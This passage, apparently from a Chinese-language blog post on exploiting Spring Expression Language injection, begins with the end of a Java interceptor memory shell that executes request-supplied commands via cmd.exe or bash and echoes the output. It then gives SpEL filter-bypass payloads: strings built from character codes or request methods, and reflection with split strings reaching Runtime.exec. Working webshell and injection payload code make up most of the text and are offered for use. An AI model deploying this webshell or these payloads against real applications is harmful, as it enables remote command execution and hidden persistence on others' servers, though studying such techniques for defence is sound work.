                    builder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                } else {
                    builder = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd});
                }
                java.util.Scanner c = new java.util.Scanner(builder.start().getInputStream(),"gbk").useDelimiter("wocaosinidema");
                o = c.hasNext() ? c.next(): o;
                c.close();
                printWriter.println(o);
                printWriter.flush();
                printWriter.close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

把他变为base64塞入payload之后注入。  
  
这就是我的纯度。

# 六、关键字Bypass（编不下去了）

纯度宝典最后一页，假如没有技能了怎么办  
和一些其他语言的沙盒逃逸一样，想办法找到替代的东西，思路其实大差不差。

## 字符串替换

形如这样的

```php
T(String).getName()[0].replace(106,104)+T(String).getName()[0].replace(106,51)+T(String).getName()[0].replace(106,122)+T(String).getName()[0].replace(106,104)+T(String).getName()[0].replace(106,49)
#回显h3zh1
```

`T(String).getName`返回的是`java.lang.String`，然后用replace替换获取想要的字符串，这种比较麻烦。

还有一种就是直接使用类似`chr`函数

```php
T(Character).toString(104)+T(Character).toString(51)+T(Character).toString(122)+T(Character).toString(104)+T(Character).toString(49)
```

## 外部对象request

假如上下文中有request对象的话就也有几种方法

```php
//request.getMethod()为POST
#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,51)%2b#request.getMethod().substring(0,1).replace(80,122)%2b#request.getMethod().substring(0,1).replace(80,104)%2b#request.getMethod().substring(0,1).replace(80,49)
//request.getMethod()为GET
#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,51)%2b#request.getMethod().substring(0,1).replace(71,122)%2b#request.getMethod().substring(0,1).replace(71,104)%2b#request.getMethod().substring(0,1).replace(71,49)
//Cookie
#request.getRequestedSessionId()
```

## 反射+字符串拼贴

比如Runtime的绕过  
`T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),newString[]{"cmd","/C","calc"})`  
如果ban了getClass还可以getSuperClass  
`''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("ex"+"ec",T(String[])).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("getRu"+"ntime").invoke(null),'calc')`  
还有各种比如Base64之类的。自己试试就知道了
